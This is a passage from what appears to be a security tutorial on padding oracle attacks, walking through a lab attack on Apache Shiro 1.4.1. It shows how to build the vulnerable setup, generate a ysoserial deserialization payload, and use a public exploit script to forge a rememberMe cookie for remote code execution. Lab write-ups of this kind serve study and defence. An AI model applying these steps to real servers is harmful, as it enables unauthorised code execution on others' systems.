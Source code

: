 Essentially, they can be seen as the state of a ciphertext block after decryption and before the XOR operation with the previous ciphertext block

Once intermediate bytes are found, deciphering the plaintext of the corresponding ciphertext is easy

## Padding Oracle Attack Scenario
Scenario of attack against Apache Shiro

Apache Shiro is a Java Security framework that has functions to perform authentication, authorization, password, and session management.

- older shiro versions suffered from a Padding Oracle Vulnerability, that when chained with a another deserialization-based vulnerability could result in RCE
- Shiro used the AES-128-CBC mode to encrypt cookies enabling Padding Oracle attacks.

Moreover:

- https://www.anquanke.com/post/id/192819

### Creating vulnerable environment
We have set up our own vuln environment using Apache Shiro 1.4.1 + tomcat:8-jre8
```bash
git clone https://github.com/apache/shiro.git
cd shiro
git checkout shiro-root-1.4.1
mvn install
cd samples/web
mvn install
```

Copy the samples-web-1.4.1.war package (samples/target) obtained after compilation to the Tomcat webapps directory
```bash
start tomcat
```

### The attack

1 - Grab cookie with BURP

2 - Create a serialized payload with YsoSerial:
```bash
java -jar ysoserial-master-30099844c6-1.jar CommonsBeanutils1 "touch /tmp/Success" > payload.class
```

3 - Download the publicly available exploit:
```bash
https://github.com/wuppp/shiro_rce_exp/blob/master/shiro_exp.py
# use to captures the 'remember me' cookie as a prefix For the Padding Oracle attack
```

4 - After a couple hours the exploit script provided us with a valid cookie containing our payload. This cookie will be deserialized by the vuln server

5 - Use BURP Repeater to issued a request with out crafted cookie. 
